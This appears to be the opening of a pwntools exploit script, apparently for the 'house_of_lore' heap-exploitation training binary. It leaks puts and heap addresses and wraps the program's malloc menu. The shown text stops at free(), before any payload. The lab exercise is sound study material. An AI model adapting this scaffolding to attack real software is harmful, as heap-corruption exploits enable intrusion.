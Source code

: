 largerbinfd.py

```python=

#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_lore', checksec=False)

#libc = ELF('../.glibc/glibc_2.25/libc.so.6', checksec=False)
libc = elf.libc 

gs = """
b *main

b *main+290

b *main+390
b *main+521

b *main+748
b *main+849

b *main+945
b *main+1064
"""

index = 0

def info(mess):
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)

def handle():
    io.recvuntil(b'puts() @ ')
    puts = int(io.recvline(), 16)
    io.recvuntil(b'heap @ ')
    heap = int(io.recvline(), 16)
    success("puts leak")
    info('puts @ ' + hex(puts))
    success("heap leak")
    info('heap @ ' + hex(heap))
    return puts, heap

def send_name(name):
    io.sendafter(b'Enter your username: ', name)
    io.recvuntil(b'> ')

def malloc(size):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.recvuntil(b'> ')
    index += 1
    return index - 1
    

def free(index):
```